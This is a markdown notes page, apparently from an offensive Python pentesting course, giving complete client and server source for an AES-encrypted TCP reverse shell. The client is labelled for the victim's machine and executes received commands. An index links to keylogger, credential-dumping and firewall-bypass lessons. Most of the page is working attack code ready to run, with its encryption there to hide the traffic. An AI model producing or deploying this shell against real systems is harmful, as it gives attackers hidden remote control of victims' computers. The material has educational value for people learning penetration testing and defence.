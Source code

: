 ```yaml
---
title: TCP reverse shell with AES encryption
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - encryption
  - aes
---
```


# TCP reverse shell with AES encryption

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on the victim's machine.

```python
from Cryptodome.Cipher import AES
from Cryptodome.Util import Padding
import socket
import subprocess
key = b"H" * 32
IV = b"H" * 16

def encrypt(message):
    encryptor = AES.new(key, AES.MODE_CBC, IV)
    padded_message = Padding.pad(message, 16)
    encrypted_message = encryptor.encrypt(padded_message)
    return encrypted_message

def decrypt(cipher):
    decryptor = AES.new(key, AES.MODE_CBC, IV)
    decrypted_padded_message = decryptor.decrypt(cipher)
    decrypted_message = Padding.unpad(decrypted_padded_message, 16)
    return decrypted_message

def connect():
    s = socket.socket()
    s.connect(('192.168.0.152', 8080))
    while True:
        command = decrypt(s.recv(1024))
        if 'terminate' in command.decode():
             break
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stderr=subprocess.PIPE, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
            s.send(encrypt(CMD.stdout.read()))
            

def main():
    connect()
main()

```


## Server side

```python
import socket

from Cryptodome.Cipher import AES
from Cryptodome.Util import Padding

IV = b"H" * 16 # this must match the block size, which is 16 byte
key = b"H" * 32 # 32 goes for AES 256

def encrypt(message):
    encryptor = AES.new(key, AES.MODE_CBC, IV)
    padded_message = Padding.pad(message, 16) # pad function is to add the necessary extra data to make sure that the size of the padded_message is 16 bytes or a multiple of 16. This is explained because cipher block chaining encryption uses blocks of 16bytes.
    encrypted_message = encryptor.encrypt(padded_message) 
    return encrypted_message

def decrypt(cipher):
    decryptor = AES.new(key, AES.MODE_CBC, IV)
    decrypted_padded_message = decryptor.decrypt(cipher)
    decrypted_message = Padding.unpad(decrypted_padded_message, 16)
    return decrypted_message

def connect():

    s = socket.socket()
    s.bind(('192.168.0.152', 8080))
    s.listen(1)
    conn, address = s.accept()
    print('[+] We got a connection')
    while True:

        command = input("Shell> ")
        if 'terminate' in command:
            conn.send(encrypt(b'terminate'))
            conn.close()
            break
        else:
            command = encrypt(command.encode())
            conn.send(command)
            print(decrypt(conn.recv(1024)).decode())
def main():
    connect()

main()

```


## Test

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


from Cryptodome.Cipher import AES
from Cryptodome.Util import Padding

key = b"H" * 32 #AES keys may be 128 bits (16 bytes), 192 bits (24 bytes) or 256 bits (32 bytes) long.
IV = b"H" * 16

cipher = AES.new(key, AES.MODE_CBC, IV)

message = "Hello"
paddedmessage = Padding.pad(message.encode(), 16)
encrypted = cipher.encrypt(paddedmessage)

print (encrypted)


decipher = AES.new(key, AES.MODE_CBC, IV)
paddeddecrypted = decipher.decrypt(encrypted)
unpaddedencrypted = Padding.unpad(paddeddecrypted, 16)

print(unpaddedencrypted.decode())

```